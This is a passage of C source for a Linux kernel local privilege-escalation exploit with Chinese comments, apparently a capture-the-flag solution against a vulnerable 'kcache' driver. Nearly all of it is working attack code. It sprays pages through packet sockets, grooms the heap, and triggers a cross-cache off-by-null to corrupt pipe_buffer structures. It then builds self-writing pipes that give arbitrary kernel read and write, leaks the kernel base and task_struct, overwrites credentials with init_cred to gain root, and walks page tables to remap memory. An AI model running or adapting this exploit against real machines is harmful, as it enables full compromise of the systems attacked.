#define KCACHE_READ 0x1919
#define KCACHE_FREE 0x810
struct kcache_cmd {
    int idx;
    unsigned int sz;
    void *buf;
};
int dev_fd;
int kcache_alloc(int index, unsigned int size, char *buf)
{
    struct kcache_cmd cmd = { .idx = index, .sz = size, .buf = buf,
    };
    return ioctl(dev_fd, KCACHE_ALLOC, &cmd);
}
int kcache_append(int index, unsigned int size, char *buf)
{
    struct kcache_cmd cmd = { .idx = index, .sz = size, .buf = buf,
    };
    return ioctl(dev_fd, KCACHE_APPEND, &cmd);
}
int kcache_read(int index, unsigned int size, char *buf)
{
    struct kcache_cmd cmd = { .idx = index, .sz = size, .buf = buf,
    };
    return ioctl(dev_fd, KCACHE_READ, &cmd);
}
int kcache_free(int index)
{
    struct kcache_cmd cmd = { .idx = index,
    };
    return ioctl(dev_fd, KCACHE_FREE, &cmd);
}
/**
 * III - pgv 页面喷射相关逻辑
 * 注意这里需要创建两个进程：
 * - the parent is the one to send cmd and get root
 * - the child creates an isolate userspace by calling unshare_setup(),
 *      从父进程接收命令并只执行对应操作
 */
#define PGV_PAGE_NUM 1000
#define PACKET_VERSION 10
#define PACKET_TX_RING 13
struct tpacket_req {
    unsigned int tp_block_size;
    unsigned int tp_block_nr;
    unsigned int tp_frame_size;
    unsigned int tp_frame_nr;
};
/* 每次分配大小为 (size * nr) 字节，并按 PAGE_SIZE 对齐 */
struct pgv_page_request {
    int idx;
    int cmd;
    unsigned int size;
    unsigned int nr;
};
/* 操作类型 */
enum {
    CMD_ALLOC_PAGE,
    CMD_FREE_PAGE,
    CMD_EXIT,
};
/* setsockopt 使用的 tpacket 版本 */
enum tpacket_versions {
    TPACKET_V1,
    TPACKET_V2,
    TPACKET_V3,
};
/* 用于命令通信的 pipe */
int cmd_pipe_req[2], cmd_pipe_reply[2];
/* 创建 socket 并分配页面，返回 socket fd */
int create_socket_and_alloc_pages(unsigned int size, unsigned int nr)
{
    struct tpacket_req req;
    int socket_fd, version;
    int ret;
    socket_fd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
    if (socket_fd < 0) {
        printf("[x] failed at socket(AF_PACKET, SOCK_RAW, PF_PACKET)\n");
        ret = socket_fd;
        goto err_out;
    }
    version = TPACKET_V1;
    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_VERSION,
                     &version, sizeof(version));
    if (ret < 0) {
        printf("[x] failed at setsockopt(PACKET_VERSION)\n");
        goto err_setsockopt;
    }
    memset(&req, 0, sizeof(req));
    req.tp_block_size = size;
    req.tp_block_nr = nr;
    req.tp_frame_size = 0x1000;
    req.tp_frame_nr = (req.tp_block_size * req.tp_block_nr) / req.tp_frame_size;
    ret = setsockopt(socket_fd, SOL_PACKET, PACKET_TX_RING, &req, sizeof(req));
    if (ret < 0) {
        printf("[x] failed at setsockopt(PACKET_TX_RING)\n");
        goto err_setsockopt;
    }
    return socket_fd;
err_setsockopt:
    close(socket_fd);
err_out:
    return ret;
}
/* 父进程调用该函数向子进程发送分配命令 */
int alloc_page(int idx, unsigned int size, unsigned int nr)
{
    struct pgv_page_request req = { .idx = idx, .cmd = CMD_ALLOC_PAGE, .size = size, .nr = nr,
    };
    int ret;
    write(cmd_pipe_req[1], &req, sizeof(struct pgv_page_request));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));
    return ret;
}
/* 父进程调用该函数向子进程发送释放命令 */
int free_page(int idx)
{
    struct pgv_page_request req = { .idx = idx, .cmd = CMD_FREE_PAGE,
    };
    int ret;
    write(cmd_pipe_req[1], &req, sizeof(req));
    read(cmd_pipe_reply[0], &ret, sizeof(ret));
    usleep(10000);
    return ret;
}
/* 子进程：处理来自 pipe 的命令 */
void spray_cmd_handler(void)
{
    struct pgv_page_request req;
    int socket_fd[PGV_PAGE_NUM];
    int ret;
    /* 创建隔离 namespace */
    unshare_setup();
    /* 处理请求 */
    do {
        read(cmd_pipe_req[0], &req, sizeof(req));
        if (req.cmd == CMD_ALLOC_PAGE) {
            ret = create_socket_and_alloc_pages(req.size, req.nr);
            socket_fd[req.idx] = ret;
        } else if (req.cmd == CMD_FREE_PAGE) {
            ret = close(socket_fd[req.idx]);
        } else {
            printf("[x] invalid request: %d\n", req.cmd);
        }
        write(cmd_pipe_reply[1], &ret, sizeof(ret));
    } while (req.cmd != CMD_EXIT);
}
/* 初始化 pgv-exploit 子系统 */
void prepare_pgv_system(void)
{
    /* pgv 使用的 pipe */
    pipe(cmd_pipe_req);
    pipe(cmd_pipe_reply);
    /* 用于页面喷射的子进程 */
    if (!fork()) {
        spray_cmd_handler();
    }
}
/**
 * IV - 页级堆喷与堆风水配置
 */
#define PIPE_SPRAY_NUM 200
#define PGV_1PAGE_SPRAY_NUM 0x20
#define PGV_4PAGES_START_IDX PGV_1PAGE_SPRAY_NUM
#define PGV_4PAGES_SPRAY_NUM 0x40
#define PGV_8PAGES_START_IDX (PGV_4PAGES_START_IDX + PGV_4PAGES_SPRAY_NUM)
#define PGV_8PAGES_SPRAY_NUM 0x40
int pgv_1page_start_idx = 0;
int pgv_4pages_start_idx = PGV_4PAGES_START_IDX;
int pgv_8pages_start_idx = PGV_8PAGES_START_IDX;
/* 喷射不同大小的页面以服务不同用途 */
void prepare_pgv_pages(void)
{
    /**
     * 这里希望获得更清晰、连续的内存布局，因此需要减少 order-3 页面分配中的噪声。
     * 所以先为这些 noisy objects 预分配页面。
     */
    puts("[*] spray pgv order-0 pages...");
    for (int i = 0; i < PGV_1PAGE_SPRAY_NUM; i++) {
        if (alloc_page(i, 0x1000, 1) < 0) {
            printf("[x] failed to create %d socket for pages spraying!\n", i);
        }
    }
    puts("[*] spray pgv order-2 pages...");
    for (int i = 0; i < PGV_4PAGES_SPRAY_NUM; i++) {
        if (alloc_page(PGV_4PAGES_START_IDX + i, 0x1000 * 4, 1) < 0) {
            printf("[x] failed to create %d socket for pages spraying!\n", i);
        }
    }
    /* 为页级堆风水喷射 8 页 */
    puts("[*] spray pgv order-3 pages...");
    for (int i = 0; i < PGV_8PAGES_SPRAY_NUM; i++) {
        /* 一个 socket 需要 1 个 sock_inode_cache 对象，4 页 1 个 slub 可容纳 19 个对象 */
        if (i % 19 == 0) {
            free_page(pgv_4pages_start_idx++);
        }
        /* 一个 socket 需要 1 个 dentry；1 页 1 个 slub 可容纳 21 个 dentry 对象 */
        if (i % 21 == 0) {
            free_page(pgv_1page_start_idx += 2);
        }
        /* 一个 pgv 需要 1 个 kmalloc-8 对象；1 页 1 个 slub 可容纳 512 个对象 */
        if (i % 512 == 0) {
            free_page(pgv_1page_start_idx += 2);
        }
        if (alloc_page(PGV_8PAGES_START_IDX + i, 0x1000 * 8, 1) < 0) {
            printf("[x] failed to create %d socket for pages spraying!\n", i);
        }
    }
    puts("");
}
/* pipe 提权相关配置 */
#define SND_PIPE_BUF_SZ 96
#define TRD_PIPE_BUF_SZ 192
int pipe_fd[PIPE_SPRAY_NUM][2];
int orig_pid = -1, victim_pid = -1;
int snd_orig_pid = -1, snd_vicitm_pid = -1;
int self_2nd_pipe_pid = -1, self_3rd_pipe_pid = -1, self_4th_pipe_pid = -1;
struct pipe_buffer info_pipe_buf;
int extend_pipe_buffer_to_4k(int start_idx, int nr)
{
    for (int i = 0; i < nr; i++) {
        /* 让 pipe_buffer 分配到 order-3 页面（kmalloc-4k） */
        if (i % 8 == 0) {
            free_page(pgv_8pages_start_idx++);
        }
        /* 1k 的 pipe_buffer 对应 16 页，因此 4k 对应 64 页 */
        if (fcntl(pipe_fd[start_idx + i][1], F_SETPIPE_SZ, 0x1000 * 64) < 0) {
            printf("[x] failed to extend %d pipe!\n", start_idx + i);
            return -1;
        }
    }
    return 0;
}
/**
 * V - 第一阶段利用：通过 cross-cache overflow 构造 page-level UAF
*/
void corrupting_first_level_pipe_for_page_uaf(void)
{
    char buf[0x1000];
    puts("[*] spray pipe_buffer...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i ++) {
        if (pipe(pipe_fd[i]) < 0) {
            printf("[x] failed to alloc %d pipe!", i);
            err_exit("FAILED to create pipe!");
        }
    }
    /* 在 order-2 页面上喷射 pipe_buffer，让 vul-obj slub 被它包围 */
    puts("[*] exetend pipe_buffer...");
    if (extend_pipe_buffer_to_4k(0, PIPE_SPRAY_NUM / 2) < 0) {
        err_exit("FAILED to extend pipe!");
    }
    puts("[*] spray vulnerable 2k obj...");
    free_page(pgv_8pages_start_idx++);
    for (int i = 0; i < KCACHE_NUM; i++) {
        kcache_alloc(i, 8, "arttnba3");
    }
    puts("[*] exetend pipe_buffer...");
    if (extend_pipe_buffer_to_4k(PIPE_SPRAY_NUM / 2, PIPE_SPRAY_NUM / 2) < 0) {
        err_exit("FAILED to extend pipe!");
    }
    puts("[*] allocating pipe pages...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        write(pipe_fd[i][1], "arttnba3", 8);
        write(pipe_fd[i][1], &i, sizeof(int));
        write(pipe_fd[i][1], &i, sizeof(int));
        write(pipe_fd[i][1], &i, sizeof(int));
        write(pipe_fd[i][1], "arttnba3", 8);
        write(pipe_fd[i][1], "arttnba3", 8);  /* prevent pipe_release() */
    }
    /* 尝试触发 cross-cache overflow */
    puts("[*] trigerring cross-cache off-by-null...");
    for (int i = 0; i < KCACHE_NUM; i++) {
        kcache_append(i, KCACHE_SIZE - 8, buf);
    }
    /* 检查 cross-cache overflow 是否成功 */
    puts("[*] checking for corruption...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        char a3_str[0x10];
        int nr;
        memset(a3_str, '\0', sizeof(a3_str));
        read(pipe_fd[i][0], a3_str, 8);
        read(pipe_fd[i][0], &nr, sizeof(int));
        if (!strcmp(a3_str, "arttnba3") && nr != i) {
            orig_pid = nr;
            victim_pid = i;
            printf("\033[32m\033[1m[+] Found victim: \033[0m%d "
                   "\033[32m\033[1m, orig: \033[0m%d\n\n",
                   victim_pid, orig_pid);
            break;
        }
    }
    if (victim_pid == -1) {
        err_exit("FAILED to corrupt pipe_buffer!");
    }
}
void corrupting_second_level_pipe_for_pipe_uaf(void)
{
    size_t buf[0x1000];
    size_t snd_pipe_sz = 0x1000 * (SND_PIPE_BUF_SZ/sizeof(struct pipe_buffer));
    memset(buf, '\0', sizeof(buf));
    /* 让 page 指针落在 pipe_buffer 中 */
    write(pipe_fd[victim_pid][1], buf, SND_PIPE_BUF_SZ*2 - 24 - 3*sizeof(int));
    /* 释放原始 pipe 的 page */
    puts("[*] free original pipe...");
    close(pipe_fd[orig_pid][0]);
    close(pipe_fd[orig_pid][1]);
    /* 通过重新分配 pipe_buffer 尝试再次命中 victim page */
    puts("[*] fcntl() to set the pipe_buffer on victim page...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pid || i == victim_pid) {
            continue;
        }
        if (fcntl(pipe_fd[i][1], F_SETPIPE_SZ, snd_pipe_sz) < 0) {
            printf("[x] failed to resize %d pipe!\n", i);
            err_exit("FAILED to re-alloc pipe_buffer!");
        }
    }
    /* 读取 victim page，检查是否成功命中 */
    read(pipe_fd[victim_pid][0], buf, SND_PIPE_BUF_SZ - 8 - sizeof(int));
    read(pipe_fd[victim_pid][0], &info_pipe_buf, sizeof(info_pipe_buf));
    printf("\033[34m\033[1m[?] info_pipe_buf->page: \033[0m%p\n"
           "\033[34m\033[1m[?] info_pipe_buf->ops: \033[0m%p\n",
           info_pipe_buf.page, info_pipe_buf.ops);
    if ((size_t) info_pipe_buf.page < 0xffff000000000000
        || (size_t) info_pipe_buf.ops < 0xffffffff81000000) {
        err_exit("FAILED to re-hit victim page!");
    }
    puts("\033[32m\033[1m[+] Successfully to hit the UAF page!\033[0m");
    printf("\033[32m\033[1m[+] Got page leak:\033[0m %p\n", info_pipe_buf.page);
    puts("");
    /* 构造第二级 page UAF */
    puts("[*] construct a second-level uaf pipe page...");
    info_pipe_buf.page = (struct page*) ((size_t) info_pipe_buf.page + 0x40);
    write(pipe_fd[victim_pid][1], &info_pipe_buf, sizeof(info_pipe_buf));
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        int nr;
        if (i == orig_pid || i == victim_pid) {
            continue;
        }
        read(pipe_fd[i][0], &nr, sizeof(nr));
        if (nr < PIPE_SPRAY_NUM && i != nr) {
            snd_orig_pid = nr;
            snd_vicitm_pid = i;
            printf("\033[32m\033[1m[+] Found second-level victim: \033[0m%d "
                   "\033[32m\033[1m, orig: \033[0m%d\n",
                   snd_vicitm_pid, snd_orig_pid);
            break;
        }
    }
    if (snd_vicitm_pid == -1) {
        err_exit("FAILED to corrupt second-level pipe_buffer!");
    }
}
/**
 * VI - 第二阶段利用：构建用于任意读写的 pipe
*/
void building_self_writing_pipe(void)
{
    size_t buf[0x1000];
    size_t trd_pipe_sz = 0x1000 * (TRD_PIPE_BUF_SZ/sizeof(struct pipe_buffer));
    struct pipe_buffer evil_pipe_buf;
    struct page *page_ptr;
    memset(buf, 0, sizeof(buf));
    /* 让 page 指针落在 pipe_buffer 中 */
    write(pipe_fd[snd_vicitm_pid][1], buf, TRD_PIPE_BUF_SZ - 24 -3*sizeof(int));
    /* 释放原始 pipe 的 page */
    puts("[*] free second-level original pipe...");
    close(pipe_fd[snd_orig_pid][0]);
    close(pipe_fd[snd_orig_pid][1]);
    /* 通过重新分配 pipe_buffer 尝试再次命中 victim page */
    puts("[*] fcntl() to set the pipe_buffer on second-level victim page...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pid || i == victim_pid
            || i == snd_orig_pid || i == snd_vicitm_pid) {
            continue;
        }
        if (fcntl(pipe_fd[i][1], F_SETPIPE_SZ, trd_pipe_sz) < 0) {
            printf("[x] failed to resize %d pipe!\n", i);
            err_exit("FAILED to re-alloc pipe_buffer!");
        }
    }
    /* 让 pipe->bufs 指向自身 */
    puts("[*] hijacking the 2nd pipe_buffer on page to itself...");
    evil_pipe_buf.page = info_pipe_buf.page;
    evil_pipe_buf.offset = TRD_PIPE_BUF_SZ;
    evil_pipe_buf.len = TRD_PIPE_BUF_SZ;
    evil_pipe_buf.ops = info_pipe_buf.ops;
    evil_pipe_buf.flags = info_pipe_buf.flags;
    evil_pipe_buf.private = info_pipe_buf.private;
    write(pipe_fd[snd_vicitm_pid][1], &evil_pipe_buf, sizeof(evil_pipe_buf));
    /* 检查第三级 victim pipe */
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pid || i == victim_pid
            || i == snd_orig_pid || i == snd_vicitm_pid) {
            continue;
        }
        read(pipe_fd[i][0], &page_ptr, sizeof(page_ptr));
        if (page_ptr == evil_pipe_buf.page) {
            self_2nd_pipe_pid = i;
            printf("\033[32m\033[1m[+] Found self-writing pipe: \033[0m%d\n",
                    self_2nd_pipe_pid);
            break;
        }
    }
    if (self_2nd_pipe_pid == -1) {
        err_exit("FAILED to build a self-writing pipe!");
    }
    /* 将第 3 个 pipe_buffer 也覆盖为指向该 page */
    puts("[*] hijacking the 3rd pipe_buffer on page to itself...");
    evil_pipe_buf.offset = TRD_PIPE_BUF_SZ;
    evil_pipe_buf.len = TRD_PIPE_BUF_SZ;
    write(pipe_fd[snd_vicitm_pid][1],buf,TRD_PIPE_BUF_SZ-sizeof(evil_pipe_buf));
    write(pipe_fd[snd_vicitm_pid][1], &evil_pipe_buf, sizeof(evil_pipe_buf));
    /* 检查第三级 victim pipe */
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pid || i == victim_pid
            || i == snd_orig_pid || i == snd_vicitm_pid
            || i == self_2nd_pipe_pid) {
            continue;
        }
        read(pipe_fd[i][0], &page_ptr, sizeof(page_ptr));
        if (page_ptr == evil_pipe_buf.page) {
            self_3rd_pipe_pid = i;
            printf("\033[32m\033[1m[+] Found another self-writing pipe:\033[0m"
                    "%d\n", self_3rd_pipe_pid);
            break;
        }
    }
    if (self_3rd_pipe_pid == -1) {
        err_exit("FAILED to build a self-writing pipe!");
    }
    /* 将第 4 个 pipe_buffer 也覆盖为指向该 page */
    puts("[*] hijacking the 4th pipe_buffer on page to itself...");
    evil_pipe_buf.offset = TRD_PIPE_BUF_SZ;
    evil_pipe_buf.len = TRD_PIPE_BUF_SZ;
    write(pipe_fd[snd_vicitm_pid][1],buf,TRD_PIPE_BUF_SZ-sizeof(evil_pipe_buf));
    write(pipe_fd[snd_vicitm_pid][1], &evil_pipe_buf, sizeof(evil_pipe_buf));
    /* 检查第三级 victim pipe */
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pid || i == victim_pid
            || i == snd_orig_pid || i == snd_vicitm_pid
            || i == self_2nd_pipe_pid || i== self_3rd_pipe_pid) {
            continue;
        }
        read(pipe_fd[i][0], &page_ptr, sizeof(page_ptr));
        if (page_ptr == evil_pipe_buf.page) {
            self_4th_pipe_pid = i;
            printf("\033[32m\033[1m[+] Found another self-writing pipe:\033[0m"
                    "%d\n", self_4th_pipe_pid);
            break;
        }
    }
    if (self_4th_pipe_pid == -1) {
        err_exit("FAILED to build a self-writing pipe!");
    }
    puts("");
}
struct pipe_buffer evil_2nd_buf, evil_3rd_buf, evil_4th_buf;
char temp_zero_buf[0x1000]= { '\0' };
/**
 * @brief Setting up 3 pipes for arbitrary read & write.
 * 这里需要构造一个循环，以便持续进行内存寻址：
 * - 2nd pipe to search
 * - 3rd pipe to change 4th pipe
 * - 4th pipe to change 2nd and 3rd pipe
 */
void setup_evil_pipe(void)
{
    /* 初始化第 2、3、4 个 pipe 的初始值，仅用于恢复 */
    memcpy(&evil_2nd_buf, &info_pipe_buf, sizeof(evil_2nd_buf));
    memcpy(&evil_3rd_buf, &info_pipe_buf, sizeof(evil_3rd_buf));
    memcpy(&evil_4th_buf, &info_pipe_buf, sizeof(evil_4th_buf));
    evil_2nd_buf.offset = 0;
    evil_2nd_buf.len = 0xff0;
    /* 劫持第 3 个 pipe，使其指向第 4 个 pipe */
    evil_3rd_buf.offset = TRD_PIPE_BUF_SZ * 3;
    evil_3rd_buf.len = 0;
    write(pipe_fd[self_4th_pipe_pid][1], &evil_3rd_buf, sizeof(evil_3rd_buf));
    evil_4th_buf.offset = TRD_PIPE_BUF_SZ;
    evil_4th_buf.len = 0;
}
void arbitrary_read_by_pipe(struct page *page_to_read, void *dst)
{
    /* 要读取的 page */
    evil_2nd_buf.offset = 0;
    evil_2nd_buf.len = 0x1ff8;
    evil_2nd_buf.page = page_to_read;
    /* 劫持第 4 个 pipe，使其指向第 2 个 pipe */
    write(pipe_fd[self_3rd_pipe_pid][1], &evil_4th_buf, sizeof(evil_4th_buf));
    /* 劫持第 2 个 pipe 用于任意读 */
    write(pipe_fd[self_4th_pipe_pid][1], &evil_2nd_buf, sizeof(evil_2nd_buf));
    write(pipe_fd[self_4th_pipe_pid][1],
          temp_zero_buf,
          TRD_PIPE_BUF_SZ-sizeof(evil_2nd_buf));
    /* 劫持第 3 个 pipe，使其指向第 4 个 pipe */
    write(pipe_fd[self_4th_pipe_pid][1], &evil_3rd_buf, sizeof(evil_3rd_buf));
    /* 读出数据 */
    read(pipe_fd[self_2nd_pipe_pid][0], dst, 0xfff);
}
void arbitrary_write_by_pipe(struct page *page_to_write, void *src, size_t len)
{
    /* 要写入的 page */
    evil_2nd_buf.page = page_to_write;
    evil_2nd_buf.offset = 0;
    evil_2nd_buf.len = 0;
    /* 劫持第 4 个 pipe，使其指向第 2 个 pipe */
    write(pipe_fd[self_3rd_pipe_pid][1], &evil_4th_buf, sizeof(evil_4th_buf));
    /* 劫持第 2 个 pipe 用于任意读，第 3 个 pipe 指向第 4 个 pipe */
    write(pipe_fd[self_4th_pipe_pid][1], &evil_2nd_buf, sizeof(evil_2nd_buf));
    write(pipe_fd[self_4th_pipe_pid][1],
          temp_zero_buf,
          TRD_PIPE_BUF_SZ - sizeof(evil_2nd_buf));
    /* 劫持第 3 个 pipe，使其指向第 4 个 pipe */
    write(pipe_fd[self_4th_pipe_pid][1], &evil_3rd_buf, sizeof(evil_3rd_buf));
    /* 将数据写入目标 page */
    write(pipe_fd[self_2nd_pipe_pid][1], src, len);
}
/**
 * VII - 基于任意读写的最终利用阶段
*/
size_t *tsk_buf, current_task_page, current_task, parent_task, buf[0x1000];
void info_leaking_by_arbitrary_pipe()
{
    size_t *comm_addr;
    memset(buf, 0, sizeof(buf));
    puts("[*] Setting up kernel arbitrary read & write...");
    setup_evil_pipe();
    /**
     * KASLR 粒度为 256MB，0x1000000 个 page 对应 1GB 内存，
     * 因此在 SMALL-MEM 环境中可以这样直接获得 vmemmap_base。
     * 对 MEM > 1GB 的情况，可以寻找 secondary_startup_64 函数指针，
     * 它位于 physmem_base + 0x9d000，也就是 vmemmap_base[156] page。
     * 如果函数指针不在这里，就 vmemmap_base -= 256MB 后重试。
     */
    vmemmap_base = (size_t) info_pipe_buf.page & 0xfffffffff0000000;
    for (;;) {
        arbitrary_read_by_pipe((struct page*) (vmemmap_base + 157 * 0x40), buf);
        if (buf[0] > 0xffffffff81000000 && ((buf[0] & 0xfff) == 0x070)) {
            kernel_base = buf[0] -  0x070;
            kernel_offset = kernel_base - 0xffffffff81000000;
            printf("\033[32m\033[1m[+] Found kernel base: \033[0m0x%lx\n"
                   "\033[32m\033[1m[+] Kernel offset: \033[0m0x%lx\n",
                   kernel_base, kernel_offset);
            break;
        }
        vmemmap_base -= 0x10000000;
    }
    printf("\033[32m\033[1m[+] vmemmap_base:\033[0m 0x%lx\n\n", vmemmap_base);
    /* 现在在内核内存中搜索 task_struct */
    puts("[*] Seeking task_struct in memory...");
    prctl(PR_SET_NAME, "arttnba3pwnn");
    /**
     * 对 MEM 小于 256M 的机器，可以简单得到：
     *      page_offset_base = heap_leak & 0xfffffffff0000000;
     * 但这并不总是准确，尤其是在 MEM > 256M 的机器上。
     * 所以需要寻找另一种方式计算 page_offset_base。
     *
     * 幸运的是 task_struct::ptraced 指向自身，因此在已知 page 的情况下，
     * 可以通过 vmemmap 和当前 task_struct 求出 page_offset_base。
     *
     * 注意，不同字段的偏移应以实际环境为准。
     */
    for (int i = 0; 1; i++) {
        arbitrary_read_by_pipe((struct page*) (vmemmap_base + i * 0x40), buf);
        comm_addr = memmem(buf, 0xf00, "arttnba3pwnn", 12);
        if (comm_addr && (comm_addr[-2] > 0xffff888000000000) /* task->cred */
            && (comm_addr[-3] > 0xffff888000000000) /* task->real_cred */
            && (comm_addr[-57] > 0xffff888000000000) /* task->read_parent */
            && (comm_addr[-56] > 0xffff888000000000)) {  /* task->parent */
            /* task->read_parent */
            parent_task = comm_addr[-57];
            /* task_struct::ptraced */
            current_task = comm_addr[-50] - 2528;
            page_offset_base = (comm_addr[-50]&0xfffffffffffff000) - i * 0x1000;
            page_offset_base &= 0xfffffffff0000000;
            printf("\033[32m\033[1m[+] Found task_struct on page: \033[0m%p\n",
                   (struct page*) (vmemmap_base + i * 0x40));
            printf("\033[32m\033[1m[+] page_offset_base: \033[0m0x%lx\n",
                   page_offset_base);
            printf("\033[34m\033[1m[*] current task_struct's addr: \033[0m"
                   "0x%lx\n\n", current_task);
            break;
        }
    }
}
/**
 * @brief find the init_task and copy something to current task_struct
*/
void privilege_escalation_by_task_overwrite(void)
{
    /* 查找 init_task，也就是所有 task 的最终父节点 */
    puts("[*] Seeking for init_task...");
    for (;;) {
        size_t ptask_page_addr = direct_map_addr_to_page_addr(parent_task);
        tsk_buf = (size_t*) ((size_t) buf + (parent_task & 0xfff));
        arbitrary_read_by_pipe((struct page*) ptask_page_addr, buf);
        arbitrary_read_by_pipe((struct page*) (ptask_page_addr+0x40),&buf[512]);
        /* task_struct::real_parent */
        if (parent_task == tsk_buf[309]) {
            break;
        }
        parent_task = tsk_buf[309];
    }
    init_task = parent_task;
    init_cred = tsk_buf[363];
    init_nsproxy = tsk_buf[377];
    printf("\033[32m\033[1m[+] Found init_task: \033[0m0x%lx\n", init_task);
    printf("\033[32m\033[1m[+] Found init_cred: \033[0m0x%lx\n", init_cred);
    printf("\033[32m\033[1m[+] Found init_nsproxy:\033[0m0x%lx\n",init_nsproxy);
    /* 现在修改当前 task_struct，获得完整 root 权限 */
    puts("[*] Escalating ROOT privilege now...");
    current_task_page = direct_map_addr_to_page_addr(current_task);
    arbitrary_read_by_pipe((struct page*) current_task_page, buf);
    arbitrary_read_by_pipe((struct page*) (current_task_page+0x40), &buf[512]);
    tsk_buf = (size_t*) ((size_t) buf + (current_task & 0xfff));
    tsk_buf[363] = init_cred;
    tsk_buf[364] = init_cred;
    tsk_buf[377] = init_nsproxy;
    arbitrary_write_by_pipe((struct page*) current_task_page, buf, 0xff0);
    arbitrary_write_by_pipe((struct page*) (current_task_page+0x40),
                            &buf[512], 0xff0);
    puts("[+] Done.\n");
    puts("[*] checking for root...");
    get_root_shell();
}
#define PTE_OFFSET 12
#define PMD_OFFSET 21
#define PUD_OFFSET 30
#define PGD_OFFSET 39
#define PT_ENTRY_MASK 0b111111111UL
#define PTE_MASK (PT_ENTRY_MASK << PTE_OFFSET)
#define PMD_MASK (PT_ENTRY_MASK << PMD_OFFSET)
#define PUD_MASK (PT_ENTRY_MASK << PUD_OFFSET)
#define PGD_MASK (PT_ENTRY_MASK << PGD_OFFSET)
#define PTE_ENTRY(addr) ((addr >> PTE_OFFSET) & PT_ENTRY_MASK)
#define PMD_ENTRY(addr) ((addr >> PMD_OFFSET) & PT_ENTRY_MASK)
#define PUD_ENTRY(addr) ((addr >> PUD_OFFSET) & PT_ENTRY_MASK)
#define PGD_ENTRY(addr) ((addr >> PGD_OFFSET) & PT_ENTRY_MASK)
#define PAGE_ATTR_RW (1UL << 1)
#define PAGE_ATTR_NX (1UL << 63)
size_t pgd_addr, mm_struct_addr, *mm_struct_buf;
size_t stack_addr, stack_addr_another;
size_t stack_page, mm_struct_page;
size_t vaddr_resolve(size_t pgd_addr, size_t vaddr)
{
    size_t buf[0x1000];
    size_t pud_addr, pmd_addr, pte_addr, pte_val;
    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pgd_addr), buf);
    pud_addr = (buf[PGD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pud_addr += page_offset_base;
    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pud_addr), buf);
    pmd_addr = (buf[PUD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pmd_addr += page_offset_base;
    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pmd_addr), buf);
    pte_addr = (buf[PMD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pte_addr += page_offset_base;
    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pte_addr), buf);
    pte_val = (buf[PTE_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    return pte_val;
}
size_t vaddr_resolve_for_3_level(size_t pgd_addr, size_t vaddr)
{
    size_t buf[0x1000];
    size_t pud_addr, pmd_addr;
    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pgd_addr), buf);
    pud_addr = (buf[PGD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pud_addr += page_offset_base;
    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pud_addr), buf);
    pmd_addr = (buf[PUD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pmd_addr += page_offset_base;
    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pmd_addr), buf);
    return (buf[PMD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
}
void vaddr_remapping(size_t pgd_addr, size_t vaddr, size_t paddr)
{
    size_t buf[0x1000];
    size_t pud_addr, pmd_addr, pte_addr;
    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pgd_addr), buf);
    pud_addr = (buf[PGD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pud_addr += page_offset_base;
    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pud_addr), buf);
    pmd_addr = (buf[PUD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pmd_addr += page_offset_base;
    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pmd_addr), buf);
    pte_addr = (buf[PMD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pte_addr += page_offset_base;
    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pte_addr), buf);
    buf[PTE_ENTRY(vaddr)] = paddr | 0x8000000000000867; /* mark it writable */
    arbitrary_write_by_pipe((void*) direct_map_addr_to_page_addr(pte_addr), buf,
                            0xff0);
}
void pgd_vaddr_resolve(void)
{
    puts("[*] Reading current task_struct...");
    /* 读取当前 task_struct */
    current_task_page = direct_map_addr_to_page_addr(current_task);
    arbitrary_read_by_pipe((struct page*) current_task_page, buf);
    arbitrary_read_by_pipe((struct page*) (current_task_page+0x40), &buf[512]);
    tsk_buf = (size_t*) ((size_t) buf + (current_task & 0xfff));
    stack_addr = tsk_buf[4];
    mm_struct_addr = tsk_buf[292];
    printf("\033[34m\033[1m[*] kernel stack's addr:\033[0m0x%lx\n",stack_addr);
    printf("\033[34m\033[1m[*] mm_struct's addr:\033[0m0x%lx\n",mm_struct_addr);
    mm_struct_page = direct_map_addr_to_page_addr(mm_struct_addr);
    printf("\033[34m\033[1m[*] mm_struct's page:\033[0m0x%lx\n",mm_struct_page);
    /* 读取 mm_struct */
    arbitrary_read_by_pipe((struct page*) mm_struct_page, buf);
    arbitrary_read_by_pipe((struct page*) (mm_struct_page+0x40), &buf[512]);
    mm_struct_buf = (size_t*) ((size_t) buf + (mm_struct_addr & 0xfff));
    /* 只有这里是虚拟地址，页表中的其他地址都是物理地址 */
